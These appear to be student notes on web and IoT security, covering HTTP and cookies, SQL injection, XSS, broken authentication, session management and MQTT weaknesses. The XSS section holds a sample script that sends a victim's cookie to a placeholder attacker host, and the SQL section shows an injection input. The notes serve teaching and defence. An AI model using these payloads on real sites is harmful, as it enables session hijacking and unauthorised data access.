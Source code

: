 # Web and IoT Security

## Security in the web

### Basics of a Web Application

A web application is made on the client/server model: they send each other messages in a *request-response messaging pattern*. We remember that all client-server protocol operate in the *Application Layer*.

**HTTP** stands for Hyper Text Transfer Protocol and it is a *stateless, application-level protocol* for exchanging information between systems. It is connectionless, media independent and stateless.

```http
HTTP/1.0 200 OK
Date: Sun, 21 Apr 1996 02:20:42 GMT
Server: Google
Connection: keep-alive
Content-Type: text/html
Set-Cookie: ...
Content-Length: 2543
<html>...</html>
```

*Up here you can see HTTP version, status code, headers, cookies and the body*

We can add a **state** to HTTP thanks to **Cookies**: cookies are small piece of data sent together with the request to remember information (ie. a shopping cart) or record user's browser activity. 

Cookies are usually used for **authentication** to know whether the user is logged in or not. However security vulnerabilities might allow cookies' data to be read by a hacker wich than can gain access to user data or the website. They also are a **privacy concern** because of tracking cookies.

Because cookies are exchanged in clear you should use https.

### Secure a Web Application

Creating a secure Web application is not an easy task because many security flaws can happen at many levels (db, sevrer, app, network). Every layer must be examined.

Example of vulnerabilities are:

- Application layer
  
  - SQL Injection
  
  - Cross-Site-Scripting
  
  - CSFR, Broken Auth, Unvalidated Input

- Server Layer
  
  - DoS
  
  - OS Explitation

- Network Layer
  
  - MITM
  
  - DNS Attack
  
  - Packet-Sniffing

- User Layer
  
  - Phishing
  
  - Key Logging
  
  - Malware

A web application should be able to grant: **Authentication, Authorization, Confidentiality, Integrity, Non-Repudiation**.

Goals of **Web Application Security** (a branch of Information Security) is to secure web and mobile apps and safen browsing the web

### SQL Injection

A SQL injection is  a code injection technique used to attack data-drive applications. It consist in inserting into a non-sanitized field SQL statements which will be executed.

```sql
SELECT * FROM Users
WHERE username = 'admin';-- AND password = 'pass123'
```

*In the example above the input field is ``'admin';--`` and the password requirement in the SQL query is ignored as a comment returning the view of an admin*.

Other types of SQL injection use wildcards, `... OR 1=1` always true statements. Basically a SQL injection is present when **dynamic queries** are built.

> Case Study: CardSystem (in June 2005) was a credit card payment processing company. A SQL injection exposed 43M credit cards.

**Mitigations:**

- Input sanitization

- Principle of The Least Priviledge

### Cross-Site Scripting Attacks (XSS)

Cross-site scripting (XSS) is a security vulnerability were attackers are able to inject clinet-side scripts into a user visited website. 

```html
http://vulnerable.com/welcome.php?name=
<script>
window.open ("http://badsite.com/collect.php?cookie= "+document.cookie)
</script>
```

*The idea is to forward the cookie of the user to the attacker site so that it can exploit it (reflected attack)*

Another way of doing XSS is through forms, loading malicious code in a filed and doing a POST request (*stored attack*).

With XSS the hacker can impersonate the victim.

**MItigations:** 

- Filter input parameters (better to use positive filtering)

### Other Attacks

**Unvalidated Input**

```html
<form action="page.asp" method="post">
    <input type="hidden" name="price" value="20.00">
    <input type="submit">
</form>
```

*A user could easily change the value client side and than send the request*

Always validate **server side**!

**Broken Authentication**

Common combination of usernames and passwords are broken.

Causes may be insecure storage, weak algorithm, faulty session management or passwords recovery.

Mitigations are to disallow weak passwords, use HTTPS and MFA, salt and has passwords

**Session Management**

Session information is equally important to protect. Poor management can leed to CSFR (Cross-Site Request Forgery), spoofing and more. 

MItigation consist in implementing strict timeouts and ensure unique and renewed Session IDs.

### Access Control in Web Application

> Case Study: The Equifax Breach
> 
> It was a **command injection attack** where hackers could execute arbitrary commands in Apache Struts. Patches were available **but not applied**.

*Security best practices dictate that this user have as little privilege as possible 
on the server itself, since security vulnerabilities in web applications and web 
servers are so commonly exploited.*

### Conclusion

It is a good idea to use automated soltions for analysis and enforcement of security policies (ie. tools, firewalls, Cloudflare).

**The OWASP Top 10** 

[OWASP Top 10:2021](https://owasp.org/Top10/)

![](/home/samu/Documents/Markdown/images/ComputerAndNetworkSecurity/OWASP.png)

## IoT Security

### Basics of IoT Applications

They usually use a **publish-subscribe** communication. It is a many-to-many communication model. Parties doesn't need to know each other and act at the same time. Synchronization is not needed.

![](/home/samu/.config/marktext/images/2022-12-13-23-59-23-image.png)

*Subjects are publishers, subscribers, a broker and a Notification service*

A more advanced model uses **topics** so that subscribers listen to "categories". Topics can be organized by **hierarchy**.

The **Event Notification System** can be centralized or distributed.

### MQTT

MQTT stands for Message Queue Telemetry Transport. It follows the publisher/subscriber pattern, has hierarchy, simple packets and runs over TCP (*not encrypted by default*)

It is designed to minimise network bandwith, run on small resources and be sort of reliable.

By default all data are in clear; however encryption is possible using **TLS**. The side effect is a significant network overhead. Additional security measures can added.

**Authentication** is possible through the `CONNECT` packet.

Security flaws rounds down to:

- Brute-force Attacks (no limit on number of attempts)

- Abuse of Wildcards in topic subscriptions (possibly system packets)
